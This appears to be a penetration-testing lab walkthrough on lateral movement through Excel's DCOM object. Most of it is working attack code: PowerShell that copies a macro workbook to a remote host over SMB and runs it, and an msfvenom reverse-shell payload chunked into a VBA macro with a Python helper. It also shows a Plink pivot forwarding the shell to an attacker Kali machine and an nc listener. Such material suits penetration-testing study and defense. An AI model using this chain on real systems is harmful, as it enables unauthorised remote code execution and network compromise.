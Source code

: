 DCOM objects related to Microsoft Office allow lateral movement, both through the use of Outlook as well as PowerPoint. Since this requires the presence of Microsoft Office on the target computer, this lateral movement technique is best leveraged against workstations.

To begin, we must first discover the available methods or sub-objects for this DCOM object usingPowerShell. For this example, we are operating from the Windows 10 client as the jeff_admin user, a local admin on the remote machine.

First create an instance of the object using PowerShell and the CreateInstance method of the System.Activator class.

As an argument to CreateInstance, we must provide its type by using the GetTypeFromProgID method, specifying the program identifier (which in this case is Excel.Application), along with the IP address of the remote workstation.

With the object instantiated, we can discover its available methods and objects using the Get-Member cmdlet. 

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.164.5"))
$com | Get-Member
```

![dcom](d_dcom.png)


We will focus on the Run method, which will allow us to execute a Visual Basic for Applications (VBA) macro remotely. To use this, we’ll first create an Excel document with a proof of concept macro by selecting the VIEW ribbon and clicking Macros from within Excel.

In this simple proof of concept, we will use a VBA macro that launches notepad.exe :

![d_excel](d_excel.png)


Select a name for the macro, in this case I named it `Mymacro` and click `Create`. 

![d_macroName](d_macroName.png)


A module will be created where we can add our payload.

The payload we added is:

```vb
Sub Mymacro()
	Shell ("notepad.exe")
End Sub
```

![d_macroNote(d_macroNote.png)

Save the Excel file in the legacy .xls format.

![d_save](d_save.png)


To execute the macro, we must first copy the Excel document to the remote computer. Since we must be a local administrator to take advantage of DCOM, we should also have access to the remote filesystem through SMB.

We can use the Copy method of the .NET System.IO.File class to copy the file. To invoke it, we specify the source file, destination file, and a flag to indicate whether the destination file should be overwritten if present ($true), as shown in the PowerShell code below:

```powershell
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\172.16.164.5\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

![d_copy](d_copy.png)


Before we are able to execute the Run method on the macro, we must first specify the Excel document it is contained in. This is done through the Open method of the Workbooks object, which is also available through DCOM as shown in the enumeration of methods and objects:

![d_objects](d_objects.png)


The Workbooks object is created from the $com `COM` handle we created earlier to perform our enumeration.

We can call the Open method directly with code like this:

```powershell
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
```

However, we are met with an error:

![d_openMethod](d_openMethod.png)


The reason for this error is that when Excel.Application is instantiated through DCOM, it is done with the SYSTEM account. The SYSTEM account does not have a profile, which is used as part of the opening process. To fix this problem, we can simply create the Desktop folder at `C:\Windows\SysWOW64\config\systemprofile`, which satisfies this profile requirement.

Creating the directory structure:

```powershell
$Path = "\\172.16.164.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```

![d_structure](d_structure.png)

With the profile folder for the SYSTEM account created, we can attempt to call the Open method again, which now should succeed and open the Excel document.

Now that the document is open, we can call the Run method with the following complete PowerShell script:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.164.5"))

$LocalPath = "C:\Users\jeff_admin\Desktop\Macro_Test1.xls"
$RemotePath = "\\172.16.164.5\c$\Macro_Test1.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\172.16.164.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\Macro_Test1.xls")
$com.Run("Mymacro")
```

![d_prog](d_prog.png)


![d_success](d_success.png)

___

## Improving Attack with Reverse Shell

While creating a remote Notepad application is interesting, we need to upgrade this attack to launch a reverse shell instead. Since we are using an Office document, we can simply reuse the Microsoft Word client side code execution technique that we covered in a previous module.

To do this, we’ll use msfvenom to create a payload for an HTA attack since it contains the Base64 encoded payload to be used with PowerShell:

```bash
┌──(kali㉿kali)-[~/www/AD-Enum]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.164.10 LPORT=443 -f hta-psh -o evil.hta  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6963 bytes
Saved as: evil.hta
```

Next, we extract the line starting with “powershell.exe -nop -w hidden -e” followed by the Base64 encoded payload and use the simple Python script below to split the command into smaller chunks, bypassing the size limit on literal strings in Excel macros:

```python
#/usr/bin/python

str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

No we can run the script and pipe it to our clipboard and should be good to go.

```bash
python dcom_chunk.py | xclip -selection clipboard
```

With the shellcode now on the clipboard we can paste it into the macro.

```vb
Sub Mymacro()
	Dim Str As String

	Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
	Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"

	CreateObject("Wscript.Shell").Run Str
End Sub
```

![d_evil](d_evil.png)

Here, we run the script and get our reverse shell from the DC

![d_shell](d_shell.png)

> Note: I also enabled the Macro by going into Excel, go to File, select Options, select Trust Center, select Trust Center settings (on the right hand side), select Macro Settings and choose "Enable all macros".

___

## Pivot back to Kali Attack Machine

Next, we will set up a pivoting channel from the domain controller to our Kali machine and obtain a reverse shell.

First, we have to kill the Excel process on the Windows Domain Controller. Next, we set up `Plink.exe` to forward our incoming shell back to our Kali machine via the following:

> Plink.exe -N -L 0.0.0.0:443:Kali-IP:Kali-Port user@Kali-IP

```bash
c:\Tools\port_redirection_and_tunneling>.\plink.exe -N -L 0.0.0.0:443:192.168.119.164:443 kali@192.168.119.164
Using username "kali".
kali@192.168.119.164's password:
```

This essentially says to forward whatever comes in on local host port 443 to the kali machine on port 443. We then set our listener on the Kali machine to catch the shell, and re-run our payload.

![d_finalShell](d_finalShell.png)

Notice that I have an alias for `wlistener` which is in my .zshrc file:

```bash
alias = "rlwrap nc -lvnp 443"
```
___